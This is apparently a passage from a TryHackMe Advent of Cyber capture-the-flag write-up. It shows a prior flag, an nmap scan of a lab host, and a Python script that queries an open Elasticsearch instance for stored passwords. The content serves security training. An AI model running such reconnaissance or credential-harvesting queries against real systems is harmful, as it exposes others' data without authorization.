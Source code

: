 ```bash

THM{SHELLS_IN_MY_EGGNOG}

```


## Task 29 -- [Day 24] Elf Stalk
```
export IP=10.10.187.60
```

Initial nmap scan:

```bash
jeffrowell@kali:~/Documents/TryHackMe/Advent of Cyber/elf_stalk$ nmap -sC -sV -Pn -n -oN nmap/initial $IP
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-26 23:23 MDT
Nmap scan report for 10.10.187.60
Host is up (0.14s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 0a:ee:6d:36:10:72:ce:f0:ef:40:9e:63:52:a9:86:44 (RSA)
|   256 11:6e:8f:7f:15:66:e3:03:b1:c4:55:f8:e7:bb:59:23 (ECDSA)
|_  256 b3:12:7a:7f:ac:89:72:c9:25:88:96:20:ad:c7:5b:4a (ED25519)
111/tcp  open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
8000/tcp open  http    SimpleHTTPServer 0.6 (Python 3.7.4)
|_http-server-header: SimpleHTTP/0.6 Python/3.7.4
|_http-title: Directory listing for /
9200/tcp open  http    Elasticsearch REST API 6.4.2 (name: sn6hfBl; cluster: elasticsearch; Lucene 7.4.0)
| http-methods:
|_  Potentially risky methods: DELETE
|_http-title: Site doesn't have a title (application/json; charset=UTF-8).

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.18 seconds
```

### 1 - Find the password in the database
For this I wrote a simple python script that uses the json library to print the data out in a nice format. The solution is a simple query using `_search?q=password`. This is what the script looked like:

```python
#!/usr/local/bin/python3

import requests
import json

url = 'http://10.10.244.246:9200/_search?q=password'
headers = {'Content-Type': 'application/json'}
r = requests.get(url=url, headers=headers)
print(json.dumps(r.json(), indent=4))
```

